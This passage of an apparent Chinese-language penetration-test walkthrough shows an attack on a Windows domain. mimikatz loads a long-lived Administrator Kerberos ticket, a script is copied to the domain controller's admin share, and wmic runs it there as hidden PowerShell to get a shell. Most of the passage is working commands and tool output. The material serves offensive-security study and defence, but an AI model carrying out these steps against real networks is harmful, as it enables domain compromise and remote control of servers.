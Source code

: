 现在我们在session中加载Ticket：



```
PS C:tmp&gt;Invoke-mymy -command ‘”kerberos::ptt admin.krb”‘
.#####. mimikatz 2.1 (x64) built on Nov 10 2016 15:31:14
.## ^ ##. “A La Vie, A L’Amour”
## /  ## /* * *
##  / ## Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
‘## v ##’ http://blog.gentilkiwi.com/mimikatz (oe.eo)
‘#####’ with 20 modules * * */
mimikatz(powershell) # kerberos::ptt admin.krb
* File: ‘admin.krb’: OK
Using klist it is possible to list our loaded Kerberos tokens:
PS C:tmp&gt; klist
Current LogonId is 0:0x3e7
Cached Tickets: (1)
#0&gt; Client: Administrator @ supercompany.LOCAL
Server: krbtgt/supercompany.LOCAL @ supercompany.LOCAL
KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
Ticket Flags 0x40e00000 -&gt; forwardable renewable initial pre_authent
Start Time: 2/17/2017 1:02:10 (local)
End Time: 2/17/2027 1:02:10 (local)
Renew Time: 2/18/2027 1:02:10 (local)
Session Key Type: RSADSI RC4-HMAC(NT)
Cache Flags: 0x1 -&gt; PRIMARY
Kdc Called:
```

成功了，Ticket成功加载了！

对于下一个操作，我们使用Windows wmic.exe实用程序，它是一个WMI的命令行接口程序，允许通过Kerberos凭证来访问远程系统。

我们在域控制器上复制了r3.ps1，没有任何问题，只需将管理员的Ticket加载到我们的会话中！

```
PS C:tmp&gt;copy c:tmpr3.ps1 \SRVDC1C$windowstempr3.ps1″
```

然后运行：



```
PS C:tmp&gt; wmic /authority:”kerberos:SUPERCOMPANYSRVDC1″ /node:SRVDC1 process call create “powershell -executionpolicy bypass -windowstyle hidden -f c:windowstempr3.ps1”
Executing (Win32_Process)-&gt;Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
`{`
ProcessId = 4528;
ReturnValue = 0;
`}`;
```

我们叉着手等了一会，在我们的电脑上就看到了来自SRVDC1的shell：
